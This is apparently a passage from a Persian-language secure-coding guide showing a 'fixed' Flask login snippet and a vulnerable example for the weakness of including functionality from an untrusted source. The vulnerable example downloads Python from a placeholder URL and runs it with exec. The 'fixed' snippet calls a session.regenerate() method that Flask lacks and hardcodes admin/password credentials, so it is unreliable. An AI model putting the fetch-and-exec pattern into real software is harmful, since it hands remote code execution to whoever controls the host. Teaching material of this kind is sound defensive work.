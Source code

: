 




##### ✅ کد اصلاح شده 


{% highlight php %}
from flask import Flask, request, session
import os

app = Flask(__name__)
app.secret_key = os.urandom(16)

@app.route('/login', methods=['POST'])
def login():
    username = request.form['username']
    password = request.form['password']
    
    # Authenticate user
    if username == 'admin' and password == 'password':
        session.regenerate()  # Regenerate session ID
        session['username'] = username
        return 'Login successful'
    else:
        return 'Login failed'

@app.route('/profile')
def profile():
    if 'username' in session:
        return f"Welcome, {session['username']}!"
    else:
        return 'Please login'

# Example usage
app.run()
{% endhighlight %}









## آسیب پذیری  Inclusion of Functionality from Untrusted Control

##### 🐞 کد آسیب پذیر


{% highlight php %}
import requests

# Fetch and execute code from an untrusted source
untrusted_code = requests.get('http://example.com/untrusted_code.py').text
exec(untrusted_code)
{% endhighlight %}
